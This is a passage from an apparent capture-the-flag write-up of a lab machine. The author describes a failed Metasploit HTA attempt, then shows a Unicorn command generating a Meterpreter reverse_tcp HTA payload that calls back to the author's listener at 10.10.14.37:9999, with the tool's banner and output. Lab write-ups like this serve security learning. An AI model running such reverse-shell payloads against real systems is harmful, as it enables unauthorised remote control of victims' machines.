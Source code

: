 The HTA payload gets downloaded as I can see from my PHP web server but the Metasploit handler just hangs, so my next try was uding Unicorn for the generation of the HTA payload instead of msfvenom.

---

## Exploitation attempt 2: Python script + Unicorn

```a
┌─[baud@parrot]─[~/reel]
└──╼ $unicorn.py windows/meterpreter/reverse_tcp 10.10.14.37 9999 hta
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=

                
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave

Happy Magic Unicorns.
[*] Writing out index file to hta_attack/index.html
[*] Writing malicious hta launcher hta_attack/Launcher.hta

```